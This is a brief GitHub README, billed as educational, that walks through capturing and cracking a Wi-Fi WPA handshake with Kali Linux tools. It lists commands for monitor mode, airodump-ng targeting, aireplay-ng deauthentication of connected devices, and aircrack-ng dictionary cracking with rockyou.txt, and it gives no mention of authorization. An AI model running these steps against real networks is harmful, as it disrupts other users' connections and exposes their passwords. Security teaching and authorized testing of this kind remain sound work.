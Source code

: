 # wifi-handshake-capture-and-crack-demo
"Educational project demonstrating Wi-Fi handshake capture and cracking using Aircrack-ng and Kali Linux."

### STEPS:- ###

## 📡 Step 1: Enable Monitor Mode on Wi-Fi Adapter
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up

## 📶 Step 2: Scan for Nearby Wi-Fi Networks
sudo airodump-ng wlan0mon

## 🎯 Step 3: Target Specific Wi-Fi Network
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
Replace <BSSID> and <channel> with actual values.
-w capture saves the captured packets as capture.cap.

## 💣 Step 4: Deauthenticate a Connected Device (Trigger Handshake)
In a new terminal:
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon

## 🔍 Step 5: Verify the Handshake
Open the .cap file in Wireshark:
wireshark capture-01.cap

## 🔓 Step 6: Crack the Wi-Fi Password Using Aircrack-ng
Use a wordlist like rockyou.txt:
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> capture-01.cap

## If the password is in the wordlist, it will be displayed as:
KEY FOUND! [ password_here ]
